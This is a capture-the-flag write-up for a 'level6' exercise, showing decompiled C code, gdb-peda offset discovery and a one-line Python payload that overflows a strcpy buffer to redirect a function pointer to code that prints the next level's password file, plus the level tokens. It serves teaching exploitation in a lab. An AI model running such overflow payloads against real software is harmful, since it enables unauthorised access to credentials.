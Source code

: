 # Level6 - strcpy buffer overflow

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level6 | `d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31` |
| level7 | `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute level6

```shell
./level6
> Segmentation fault (core dumped)

./level6 a
> Nope
```

The program segfault without an argument

Lets debug the binary

```shell
(gdb) info functions
gdb-peda$ pdisas main
gdb-peda$ pdisas m
gdb-peda$ pdisas n
```

See our assembly interpretation in [source file](../source.c)

```C
void n(void)
{
    system("/bin/cat /home/user/level7/.pass");
}

void m(char *str)
{
    puts(str);
}

int main(int argc, char **argv)
{
    char *dest;
    void *m_address;
    void *arg;

    dest = (void *)malloc(0x40);
    m_address = (void *)malloc(0x4);
    m_address = (void *)m;
    arg = argv + 4;
    strcpy(dest, arg);

    ((void (*)(void))m_address)();
}
```

It seems the function m in called through an address stored in a pointer.

As `strcpy` is vulnerable, the idea is to use the vulnerability to overwrite the pointer `m_address`

`strcpy` is vulnerable with buffer overflows. We have to find the offset

```shell
gdb-peda$ pset arg cyclic_pattern(200)
gdb-peda$ run
gdb-peda$ pattern search
> Registers contain pattern buffer:
  EIP+0 found at offset: 72
  EAX+0 found at offset: 72
```

The offset is 72

And the address of n-function is `0x08048454`

Now we have everything we need, lets build our exploit.

Our exploit will contain 72 characters followed by a return address that aims n-function address.

```bash
~/level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
> f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)
- [FR - Buffer overflow](https://beta.hackndo.com/buffer-overflow/)

### Shell

- [Man malloc](https://linux.die.net/man/3/malloc)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strcpy](https://linux.die.net/man/3/strcpy)
- [Man system](https://linux.die.net/man/3/system)
